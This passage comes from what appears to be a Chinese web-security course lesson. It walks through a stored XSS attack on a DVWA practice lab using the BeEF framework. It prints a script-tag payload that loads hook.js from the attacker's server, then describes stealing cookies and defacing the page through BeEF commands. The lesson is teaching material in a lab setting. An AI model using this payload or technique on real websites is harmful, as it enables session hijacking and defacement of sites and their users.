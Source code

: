 那么在利用BeEF前，我们首先需要进行XSS攻击。

![图片](https://static001.geekbang.org/resource/image/49/0c/4925d7a0991769d15fef32429f627d0c.png?wh=1886x676)

和之前我们手动攻击一样，需要在Message框内输入恶意负载，由于我们BeEF工具所在的服务器地址为192.168.3.101，所以我们将负载设置为：

```javascript
<script src="http://192.168.3.101:3000/hook.js"></script>

```

这样，每当这个页面被访问时，都会触发我们注入的JavaScript代码，使得页面向我们的恶意服务器请求hook.js文件，其中你可以简单认为hook.js文件是BeEF的一个接口，之后我们在BeEF调用的命令都是通过这个接口来实现的。

完成了接口的设置之后，我们在BeEF的页面，可以看到BeEF中的Hooked Browsers一栏已经显示出被攻击的目标。

![图片](https://static001.geekbang.org/resource/image/4c/a0/4c7c510c44a307501e38c531c7754ea0.png?wh=618x286)

这里192.168.3.124是我搭建的DVWA靶场的地址，代表的是被攻击服务器IP，而192.168.3.102代表的是访问被攻击服务器的用户机器的IP。我们点击Current Browser就可以进行我们想要的攻击行为啦。

![图片](https://static001.geekbang.org/resource/image/yy/07/yy627d5fc5043a1bb1c872c62cb4aa07.png?wh=1715x803)

首先我们选中Commands这一栏，然后根据描述选择其中我们想要发起的攻击行为，例如：GET Cookie。

![图片](https://static001.geekbang.org/resource/image/f8/88/f80162yy5bbdyy945c8cb34e9c678588.png?wh=1745x869)

可以看到我们已经获取到了cookie信息。**这比我们手动去获取cookie简单很多。**

这就是BeEF的用法介绍，当然它具有很多有趣的攻击功能，下面我再介绍它的一个功能，那就是改变页面内容。

![图片](https://static001.geekbang.org/resource/image/cb/53/cb1c8d8d6acd8db3257fbfaaa1e40853.png?wh=1692x599)

我们可以在Deface Content中对内容进行设置，然后点击执行按钮，可以发现我们的DVWA靶场已经变为了刚刚设计的内容。

![图片](https://static001.geekbang.org/resource/image/a9/6c/a90ddb4fe7bcb4b944ec8336b3d4ce6c.png?wh=1196x669)

其实BeEF的非常强大，它具有几百个不同的攻击命令，你可以一一尝试去把玩它们。

## 总结

在这节课程中，我们可以感受到XSS攻击的可怕之处，并且清楚了它的危害性。

首先我们学习了对XSS攻击的手动利用，包括了盗取cookie、按键记录和钓鱼、广告植入以及欺骗跳转这些不同的攻击手段。但事实上，我们都是利用的JavaScript代码注入，页面中一切JavaScript代码可以实现的功能，我们都能实现。所以实现XSS攻击的能力，和JavaScript的掌握程度息息相关。

然后，我们学习了XSS攻击神器——BeEF，利用它我们不需要再亲自构造JavaScript代码，而是利用设计好的代码直接发起我们想要的攻击行为，这给我们带来了极大的便利。

## 思考题

除了这节课中提到的XSS攻击种类，你还能想到别的攻击种类吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
    